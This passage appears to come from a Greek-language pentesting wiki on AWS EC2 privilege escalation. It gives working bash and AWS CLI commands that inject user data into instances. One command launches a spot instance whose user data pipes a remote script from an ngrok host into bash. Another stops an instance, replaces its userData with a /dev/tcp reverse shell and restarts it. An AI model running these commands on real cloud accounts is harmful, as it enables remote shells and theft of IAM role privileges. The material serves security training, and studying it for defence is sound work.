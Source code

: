 {% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
--instance-count 1 \
--launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```
{% endcode %}

### `ec2:ModifyInstanceAttribute`

Ένας επιτιθέμενος με το **`ec2:ModifyInstanceAttribute`** μπορεί να τροποποιήσει τα χαρακτηριστικά των instances. Μεταξύ αυτών, μπορεί να **αλλάξει τα δεδομένα χρήστη**, που σημαίνει ότι μπορεί να κάνει το instance **να εκτελεί αυθαίρετα δεδομένα.** Αυτό μπορεί να χρησιμοποιηθεί για να αποκτήσει μια **rev shell στο EC2 instance**.

Σημειώστε ότι τα χαρακτηριστικά μπορούν να **τροποποιηθούν μόνο ενώ το instance είναι σταματημένο**, οπότε οι **άδειες** **`ec2:StopInstances`** και **`ec2:StartInstances`**.
```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
--instance-id="$INSTANCE_ID" \
--attribute userData \
--value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```
**Πιθανές Επιπτώσεις:** Άμεση εκμετάλλευση δικαιωμάτων σε οποιοδήποτε EC2 IAM Ρόλο συνδεδεμένο με μια δημιουργημένη παρουσία.
